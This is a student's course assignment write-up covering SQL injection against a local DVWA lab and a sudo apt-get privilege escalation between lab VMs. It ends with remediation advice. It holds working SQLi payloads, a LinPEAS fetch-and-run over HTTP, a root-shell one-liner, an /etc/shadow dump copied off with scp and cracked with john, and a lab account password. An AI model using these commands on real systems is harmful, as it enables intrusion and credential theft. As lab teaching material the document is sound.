Ruben Valdez  
Intrusion Detection and Hacker Exploits | CSEC 5350  
Prof. Robert Jones  
Assignment_2: Breaking and Entering: A Controlled Exploit  
Due: April 3, 2025   

# Option 3: Controlled Web Exploitation
    - Select a web vulnerability (SQL Injection, XSS, or CSRF) and demonstrate exploitation in a lab environment.
    - Validate findings by manually crafting payloads and analyzing responses.
    - Provide recommendations for mitigation.
    - Deliverables: Attack methodology, request/response logs, proof of exploitation.

## Lab Environment

1. Installed DVWA docker image `sudo docker pull vulnerables/web-dvwa`

    

    

2. Success, accessed the DVWA site at `http://localhost:8080/login.php`

    

  

## SQLi

1. ***Attack Methodoly***
    - Target: `http://localhost:8080/vulnerabilities/sqli/`
    - Vulnerable Input Field: `User ID`
    - Parameter: `id passed via GET request`

    

2. Exploitation with Manually Crafted Payloads

    - 1st Test: Authentication Bypass / Data Dump

        The app returned a valid record without proper ID — confirms classic SQLi.

        - Manual exploitation using `' OR 1=1 --`

            

        - URL Generated exploitation using `http://localhost:8080/vulnerabilities/sqli/?id=' OR 1=1 -- &Submit=Submit#`

            

    - 2nd Test: Database Version Discovery

        Leaked DB version via injection.

        - Manual exploitation payload using `1' UNION SELECT null, version() --`

            

        - URL Payload delivery using `http://localhost:8080/vulnerabilities/sqli/?id=1'+UNION+SELECT+null,version()+--+&Submit=Submit#`

            

    - 3rd Test: Current DB User

        Current DB user revealed.

        - Manual Exploitation payload using `1' UNION SELECT null, user() -- `

            

3. Request/Response Logs

    - Used `Firefox Web Developer Tools` to access the request and response logs with the `Network` tab

        

    - Entered the following payload manually in the User ID field:  `GET /vulnerabilities/sqli/?id=' OR 1=1 -- &Submit=Submit HTTP/1.1` and looked for the html file to grab the below curl site. 

        - To copy the curl follow these steps:  `Right clicked > Copy Value > Copy as Curl`

                curl 'http://localhost:8080/vulnerabilities/sqli/?id=id%3D%27+OR+1%3D1+--&Submit=Submit#' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/vulnerabilities/sqli/?id=GET+%2Fvulnerabilities%2Fsqli%2F%3Fid%3D%27+OR+1%3D1+--+%26Submit%3DSubmit+HTTP%2F1.1&Submit=Submit' -H 'Cookie: PHPSESSID=9ppv1j9h8u9ggrpr23pmon3an1; security=low' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Priority: u=0, i'

            

            

4. Recommendations for Mitigation

    - Use Parameterized Queries / Prepared Statements	
        - Avoid directly including user input in SQL queries
    - Input Validation	
        - Use server-side validation and whitelist expected formats
    - Least Privilege DB Accounts	
        - DB user should not have access to sensitive or admin-level data
    - Error Handling	
        - Disable verbose SQL errors shown to users
    - WAFs	
        - Add Web Application Firewall to detect and block malicious inputs

  

# Option 4: Post-Exploitation & Privilege Escalation

    Perform post-exploitation techniques after gaining access to a vulnerable system.
    Techniques may include privilege escalation, credential dumping, or lateral movement.
    Explain how real-world attackers use these techniques after initial compromise.
    Deliverables: Walkthrough of the escalation method, captured credentials or access verification.

## Lab Setup

1. Using two VMware machines; Kali and Ubuntu.

    On each machine I ran the following commands to grab each machines IP and performed a ping scan to ensure the machines were on the same LAN.

    

2. On the vuln-Ubuntu OS, I created a separate user using the following cmds:

        sudo adduser hacker

        pswd: &UJM7ujm

    
   

3. On the vuln-Ubuntu OS, I Set up SSH

        sudo apt install -y openssh-server
        sudo ufw allow 22/tcp
        sudo systemctl enable ssh
        sudo systemctl start ssh

    

  

## Step 1: Initial Access (Precondition)

- Prior to post-exploitation, access to the Ubuntu system was obtained using a standard SSH login for a low-privilege user hacker:

        ssh hacker@192.168.229.130

    

  

## Step 2: Enumeration for Privilege Escalation

- On Kali (Attacker VM), download LinPEAS:

        wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
        chmod +x linpeas.sh
        python3 -m http.server 8080

    

    
- On Ubuntu (Target VM) as `hacker`, download and run LinPEAS:

        wget http://192.168.229.131:8080/linpeas.sh
        chmod +x linpeas.sh
        ./linpeas.sh | tee linpeas_output.txt

    
    

- Key findings from enumeration

    - The hacker user was allowed to execute apt-get with sudo without a password:

            sudo -l

        Did a search of `sudo -l` in terminal of the results:

             

    - Output; this should be:

            (ALL) NOPASSWD: /usr/bin/apt-get

    

  

## Step 3: Exploiting the Escalation Vector

- Privilege Escalation Using apt-get Pre-Invoke

    This command executes /bin/bash as root before the apt-get update process, resulting in a root shell.

        sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash

- To confirm `root` access run the following commands and see the screenshot output

        whoami

        id

    

  

## Step 4: Post-Exploitation Tasks

Now operating as root on the Ubuntu VM, the following tasks were performed:

1. Crediential Dumping

    - Dumped the /etc/shadow file for offline password cracking:

            cat /etc/shadow > /tmp/shadow_dump

        

    - Transferred to Kali for analysis:

            scp hacker@192.168.229.130:/tmp/shadow_dump .

         

    - Cracked using john:

            john --wordlist=/usr/share/wordlists/rockyou.txt shadow_dump

        Attempted to run the command above but couldn't, as i recieved an 'no file` error for rockyou.txt.
        So I navigated to the `wordlists` folder and found that the txt file was compressed.  Ran `sudo gunzip /usr/share/wordlists/rockyou.txt.gz` to unzip the txt file.  

        Now I was successfully able to run the command above.   

        ***JOHN OUTPUT***  Not sure why the results only list `rvaldez` and not `hacker`.  

        

2. Sensitive File Discovery

    - Search for files containing credentials:

            find / -name "*password*" 2>/dev/null

        

    - Review command history:
        
            cat ~/.bash_history

        

  

## Conclusion

Initial Foothold: SSH access via low-privilege hacker user

Escalation Vector: Misconfigured sudo permissions allowing apt-get with no password

Post-Exploitation: Successfully gained root access, dumped credentials, and searched for sensitive files

  

## Remediation Recommendations

Restrict sudo Permissions: Remove NOPASSWD entries from non-admin users.

Monitor /etc/sudoers: Enforce least privilege and audit who can use sudo.

Credential Storage Review: Ensure sensitive credentials are not stored in plaintext or exposed via history files.

Logging & Monitoring: Implement host-based logging (e.g., auditd) to detect privilege escalation attempts.

